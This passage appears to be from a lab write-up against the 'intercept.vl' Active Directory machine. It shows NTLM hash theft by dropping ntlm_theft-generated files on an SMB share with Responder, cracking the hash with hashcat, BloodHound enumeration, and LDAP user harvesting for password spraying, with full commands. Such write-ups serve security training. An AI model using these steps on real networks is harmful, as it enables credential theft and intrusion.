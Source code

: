 So this tells us that a user will constantly look into this folder, we can try coercing NTLM authentication, to do that we can try placing scf, url, lnk and other files that will have UNC path to our IP, we can utilize https://github.com/Greenwolf/ntlm_theft that can help us in generate files rather than spending time and doing it manually 

```bash
python3 ./ntlm_theft.py -s 10.8.0.136 --generate all --filename @
```

<img src="https://i.imgur.com/1d1nrjd.png"/>

With `prompt off` and `mput *` we can upload all of these files on dev smb share

<img src="https://i.imgur.com/so1Nj1h.png"/>

As soon as these files will be uploaded, we'll get NTLMv2 hash of `Kathryn.Spencer` on `Responder`

<img src="https://i.imgur.com/RJVx4nI.png"/>

We can try cracking it but before that let's see if we can realy it on DC01 by checking if smb singing is disabled

<img src="https://i.imgur.com/lixXvjv.png"/>

Smb signing is enabled so we can't relay it and the only option we have here is to crack this hash, using `hashcat` we'll be able to crack this hash with the password `Chocolate1`

```bash
hashcat -a 0 -m 5600 ./hash.txt /usr/share/wordlists/rockyou.txt
```

<img src="https://i.imgur.com/MSTbMJt.png"/>

We can verify if we have a domain user

<img src="https://i.imgur.com/cXbvapQ.png"/>

So now we can enumerate the domain with `python-bloodhound`

```bash
python3 /opt/BloodHound.py-Kerberos/bloodhound.py -d 'intercept.vl' -u 'KATHRYN.SPENCER' -p 'Chocolate1' -gc 'DC01.intercept.vl' -c all -ns 10.10.240.133
```

<img src="https://i.imgur.com/8XnTeZS.png"/>

From bloodhuond, we only see this user to be a part of `intercept-users` group

<img src="https://i.imgur.com/PD6yCD9.png"/>

We can try spraying the password on other domain users by retrieving the usernames from LDAP using `windapsearch`

```bash
windapsearch -u 'KATHRYN.SPENCER' -p 'Chocolate1' -d 'intercept.vl' -m users --dc 10.10.240.133 | grep sAMAccountName | awk -F: '{ print $2 }' | awk '{ gsub(/ /,""); print }'
```
